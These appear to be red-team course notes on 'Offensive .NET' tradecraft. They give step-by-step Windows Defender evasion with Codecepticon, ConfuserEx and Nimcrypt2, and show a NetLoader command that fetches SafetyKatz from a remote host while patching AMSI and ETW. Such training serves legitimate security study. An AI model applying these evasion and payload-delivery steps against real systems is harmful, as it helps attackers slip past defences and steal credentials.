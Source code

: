 # Offensive .NET - Introduction
- Currently, .NET lacks some of the security features implemented in System.Management.Automation.dll.
- Because of this, many Red teams have included .NET in their tradecraft.
- There are many open source Offensive .NET tools and we will use the ones that fit our attack methodology.

# Offensive .NET - Tradecraft
- When using .NET (or any other compiled language) there are some challenges
	- Detection by countermeasures like AV, EDR etc.
	- Delivery of the payload (Recall PowerShell's sweet download-execute cradles)
	- Detection by logging like process creation logging, command line logging etc.
- We will try and address the AV detection and delivery of the payload as and when required during the class ;)
- You are on your own when the binaries that we share start getting detected by Windows Defender!

# Offensive .NET - Tradecraft - AV bypass
- We will focus mostly on bypass of signature-based detection by Windows Defender.
- For that, we can use techniques like Obfuscation, String Manipulation etc.
- We can again use DefenderCheck to identify code and strings from a binary that Windows Defender may flag.
- This helps us in deciding on modifying the source code and minimal obfuscation.
- We can also use source code obfuscation.

# Offensive .NET - Tradecraft - AV bypass – Source Code Obfuscation
#### Source Code Obfuscation Using Codecepticon (https://github.com/Accenture/Codecepticon)
- Tools such as Codecepticon can also obfuscate the source code to bypass any signature-related detection.
- Codecepticon needs to be compiled in Visual Studio and it’s command line generator can help generate an obfuscation command quickly.
- Using Codecepticon:
	- Compile the project in Visual Studio and navigate to the output directory, to open the CommandLineGenerator.html file.
	- Here, you can decide how you want to obfuscate the source code.
	- ![[Pasted image 20250320193241.png]]
	- You can also use the following command to obfuscate the source code with Codecepticon:
		- `C:\AD\Tools\Codecepticon.exe --action obfuscate --module csharp --verbose --path "C:\AD\Tools\Rubeus-master\Rubeus.sln" --map-file "C:\AD\Tools\Rubeus-master\Mapping.html" --profile rubeus --rename ncefpavs --rename-method markov --markov-min-length 3 --markov-max-length 10 --markov-min-words 3 --markov-max-words 5 --string-rewrite --string-rewrite-method xor`
#### Source Code Obfuscation Using ConfuserEx (https://mkaring.github.io/ConfuserEx/)
- A great tool to obfuscate the compiled binary is ConfuserEx
- ConfuserEx is a free .NET obfuscator, which can stop AVs from performing signature based detection.
- ![[Pasted image 20250320193628.png]]
- Using ConfuserEx:
	- If not present on system, download ConfuserEx GUI from the “Releases” page and simply run it.
	- On Student VM, you can run ConfuserEx GUI from C:\AD\Tools directory.
	- Add the Release folder of the compiled binary to ConfuserEx.
	- ![[Pasted image 20250320193927.png]]
	- Add a new Rule in the settings page
	- ![[Pasted image 20250320193938.png]]
	- Double click the rule and set the preset to “Maximum”
	- ![[Pasted image 20250320193949.png]]
	- Finally, in the protect page, click "Protect!" to produce the obfuscated binary.
	- ![[Pasted image 20250320194009.png]]
	- Verify with DefenderCheck.

# Offensive .NET - Tradecraft - Payload Delivery
#### using NetLoader (https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2) with CsWhispers and Nimcrypt2
- We can use NetLoader to deliver our binary payloads.
- It can be used to load binary from filepath or URL and patch AMSI & ETW while executing.
	- `C:\Users\Public\Loader.exe -path http://172.16.100.X/SafetyKatz.exe`
- We are using NetLoader with CsWhispers project to add D/Invoke and indirect syscall execution as NetLoader uses classic Process Injection WinAPIs which is flagged on basic import table analysis.
- Steps to use Loader with CsWhispers:
	- Download CsWhispers, open it in Visual Studio and Check 'Allow unsafe code' under build configuration..
	- ![[Pasted image 20250320195129.png]]
	- Create a new file called CsWhispers.txt under CsWhispers.Sample and append NT API and struct equivalents that are required to be replaced in the NetLoader project.
	- ![[Pasted image 20250320195149.png]]
	- Finally, append the NetLoader project into CSWhispers.Sample and replace appropriate WinAPIs with their NT equivalents. An example replacement for the VirtualProtect WINAPI can be found below. Build the solution.
	- ![[Pasted image 20250320195207.png]]
	- ![[Pasted image 20250320195212.png]]
	- Obfuscate the generated assembly using Nimcrypt2.
		- `kali> ./nimcrypt -f CSWhispers.Sample.exe -e -n -s --no-ppid-spoof -o Loader.exe -t csharp`
		- Flags used:
			- `-e: Encrypt strings using the strenc module`
			- `-n: Disable syscall name randomization`
			- `-s: Disable sandbox checks`
			- `--no-ppid-spoof: Disable PPID Spoofing`
			- `-t: Type of file`
			- `-o: Output filename`